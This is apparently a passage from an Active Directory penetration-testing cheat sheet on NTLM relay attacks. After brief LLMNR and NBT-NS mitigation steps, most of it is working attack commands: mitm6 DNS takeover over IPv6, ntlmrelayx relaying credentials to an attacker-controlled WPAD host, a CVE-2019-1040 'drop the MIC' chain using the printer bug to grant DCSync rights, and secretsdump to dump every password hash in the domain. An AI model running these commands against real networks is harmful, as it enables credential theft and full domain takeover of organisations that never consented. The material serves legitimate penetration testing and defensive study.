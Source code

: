 **Mitigations**:

 * Disable LLMNR via group policy
    ```powershell
    Open gpedit.msc and navigate to Computer Configuration > Administrative Templates > Network > DNS Client > Turn off multicast name resolution and set to Enabled
    ```
 * Disable NBT-NS
    ```powershell
    This can be achieved by navigating through the GUI to Network card > Properties > IPv4 > Advanced > WINS and then under "NetBIOS setting" select Disable NetBIOS over TCP/IP
    ```

#### SMB Signing Disabled and IPv6

Since [MS16-077](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-077) the location of the WPAD file is no longer requested via broadcast protocols, but only via DNS.

```powershell
crackmapexec smb $hosts --gen-relay-list relay.txt

# DNS takeover via IPv6, mitm6 will request an IPv6 address via DHCPv6
# -d is the domain name that we filter our request on - the attacked domain
# -i is the interface we have mitm6 listen on for events
mitm6 -i eth0 -d $domain

# spoofing WPAD and relaying NTLM credentials
impacket-ntlmrelayx -6 -wh $attacker_ip -of loot -tf relay.txt
impacket-ntlmrelayx -6 -wh $attacker_ip -l /tmp -socks -debug

# -ip is the interface you want the relay to run on
# -wh is for WPAD host, specifying your wpad file to serve
# -t is the target where you want to relay to. 
impacket-ntlmrelayx -ip 10.10.10.1 -wh $attacker_ip -t ldaps://10.10.10.2
```

#### Drop the MIC

> The CVE-2019-1040 vulnerability makes it possible to modify the NTLM authentication packets without invalidating the authentication, and thus enabling an attacker to remove the flags which would prevent relaying from SMB to LDAP

Check vulnerability with [cve-2019-1040-scanner](https://github.com/fox-it/cve-2019-1040-scanner)

```powershell
python2 scanMIC.py 'DOMAIN/USERNAME:PASSWORD@TARGET'
[*] CVE-2019-1040 scanner by @_dirkjan / Fox-IT - Based on impacket by SecureAuth
[*] Target TARGET is not vulnerable to CVE-2019-1040 (authentication was rejected)
```

- Using any AD account, connect over SMB to a victim Exchange server, and trigger the SpoolService bug. The attacker server will connect back to you over SMB, which can be relayed with a modified version of ntlmrelayx to LDAP. Using the relayed LDAP authentication, grant DCSync privileges to the attacker account. The attacker account can now use DCSync to dump all password hashes in AD
    ```powershell
    TERM1> python printerbug.py testsegment.local/testuser@s2012exc.testsegment.local <attacker ip/hostname>
    TERM2> ntlmrelayx.py --remove-mic --escalate-user ntu -t ldap://s2016dc.testsegment.local -smb2support
    TERM1> secretsdump.py testsegment/ntu@s2016dc.testsegment.local -just-dc
    ```
